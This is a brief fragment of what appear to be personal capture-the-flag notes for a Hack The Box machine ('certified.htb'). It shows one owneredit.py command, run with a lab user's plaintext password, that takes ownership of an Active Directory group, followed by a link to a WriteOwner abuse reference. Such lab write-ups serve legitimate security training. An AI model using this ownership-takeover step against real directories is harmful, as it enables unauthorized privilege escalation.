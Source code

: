 Change owner of a group

![[Pasted image 20241105010915.png]]

```bash
owneredit.py -action write -owner 'judith.mader' -target 'judith.mader' 'certified.htb'/'judith.mader':'judith09'
```


https://notes.shashwatshah.me/windows/active-directory/writeowner
!!!!!!!!!!!!!!!!!!!!!

Now have ownership over group:


![[Pasted image 20241105011745.png]]